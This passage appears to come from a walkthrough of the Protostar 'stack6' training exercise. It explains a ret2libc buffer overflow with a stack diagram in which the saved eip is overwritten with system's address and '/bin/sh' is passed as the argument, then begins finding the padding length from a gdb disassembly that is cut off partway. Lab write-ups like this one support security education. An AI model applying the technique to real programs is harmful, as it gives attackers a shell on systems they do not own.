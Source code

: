 


```

  |  |---------------------|
  |  |                     |
  |  | address of '/bin/sh'|  <--- the argument of system
  |  |---------------------|
  |  |                     |
  |  |  address of exit    |  <---- after the call of system('/bin/sh') we are going to exit without segfault 
  |  |---------------------|
  |  |                     | 
  |  |       system        | <----- overwrite the save eip with the address of system
  |  |       address       | 
  |  |---------------------|
  |  |xxxxxxxxxxxxxxxxxxxxx| 
  |  |xxxxx Sebp xxxxxxxxxx|    <----- overwrite the save ebp
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  |  |---------------------|
  |  |xxxxxxxxxxxxxxxxxxxxx|                            
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  |  |xxxxxxxxxxxxxxxxxxxxx|  <--- overwrite the buffer 
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  |  |xxxxxxxxxxxxxxxxxxxxx|  
  v                                              

```

Ok now that we understand what is a ret2libc let's start exploiting the 'stack6' binary.

Let's lauch gdb to find the amount of padding we need to overwrite the save eip.


First way to find it with static analysis: 

```
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x08048484 <getpath+0>:	  push   ebp
0x08048485 <getpath+1>:	  mov    ebp,esp
0x08048487 <getpath+3>:	  sub    esp,0x68
0x0804848a <getpath+6>:	  mov    eax,0x80485d0
0x0804848f <getpath+11>:	mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:	call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:	mov    eax,ds:0x8049720
0x0804849c <getpath+24>:	mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:	call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:	lea    eax,[ebp-0x4c]  <----- eax points on the address of the start of the buffer
0x080484a7 <getpath+35>:	mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:	call   0x8048380 <gets@plt>
0x080484af <getpath+43>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:	mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:	and    eax,0xbf000000
0x080484bd <getpath+57>:	cmp    eax,0xbf000000
0x080484c2 <getpath+62>:	jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:	mov    eax,0x80485e4
0x080484c9 <getpath+69>:	mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:	mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:	mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:	call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:	mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:	call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:	mov    eax,0x80485f0
0x080484e9 <getpath+101>:	lea    edx,[ebp-0x4c]
```